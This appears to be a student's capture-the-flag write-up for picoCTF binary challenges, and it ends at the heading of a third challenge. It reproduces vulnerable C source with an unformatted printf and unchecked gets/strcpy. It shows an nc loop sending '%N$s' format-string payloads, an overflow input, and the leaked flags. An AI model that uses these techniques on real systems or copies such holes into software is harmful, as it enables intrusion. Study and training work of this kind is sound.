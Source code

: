 # Binary Exploitation-

# 1) Flag leak 
all right for this chall,we are given with files one is a executable file vuln and the other is the source code in C.

![image](https://github.com/user-attachments/assets/6a5a5269-efbe-4f40-bc9c-6ffcdd118c4e)

soo lets check the source code of the given problem.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
I can see that it print whatever i give it this means i can get format string attack on this.

https://owasp.org/www-community/attacks/Format_string_attack

I referred to the above website to understand more about format string attack.

soooo i tried to get to use %x%x repeatly 

but well i got the flag in a bit of jumbled up way.

so i knew i had to do something different.

so i used a script to change the offset and read me the flag from stack.

```
gnix@GNIX:~$ for i in {0..100}; do echo "%$i\$s" | nc saturn.picoctf.net 62521; done
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
�-�
Tell me a story and then I'll tell you one >> Here's a story -
�ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
�.
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�������
Tell me a story and then I'll tell you one >> Here's a story -
��h�g
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -
�!y�
Tell me a story and then I'll tell you one >> Here's a story -
��e�

Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
Tell me a story and then I'll tell you one >> Here's a story -
�j�
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
$�
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story -
����������؉ǀ�u��^H�C�p��s��u��C
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
^C
```
at around some iterations i got CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a} without the proper format however i wrapped it in proper format and got the flag.

```
flag-picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

```

# 2) Buffer Overflow 0-
so the challenge begins with a source code and an instance

i cat the source code 
```
gnix@GNIX:~$ wget https://artifacts.picoctf.net/c/172/vuln.c
--2024-12-22 10:23:42--  https://artifacts.picoctf.net/c/172/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 108.159.61.26, 108.159.61.96, 108.159.61.109, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|108.159.61.26|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 808 [application/octet-stream]
Saving to: ‘vuln.c.1’

vuln.c.1                      100%[=================================================>]     808  --.-KB/s    in 0s

2024-12-22 10:23:44 (186 MB/s) - ‘vuln.c.1’ saved [808/808]

gnix@GNIX:~$ cat vuln.c.1
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
well as the name suggested it was buufer overflow and as I checked the source code the max flag size was of 64 characters. so i inputted a random 100 characters into the program and got the flag.

```
gnix@GNIX:~$ nc saturn.picoctf.net 57113
Input: SMuxGQ!cMR7f8uPXYfV3JmB&CHq9Q&BYj2tJSe73rKYV&dGYwjYD4Y@oCqp7ge05m75%soWogTqdE&gyXhDO6h5YP0FFFsnF#Phf
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

```
# 3) Format String 0-


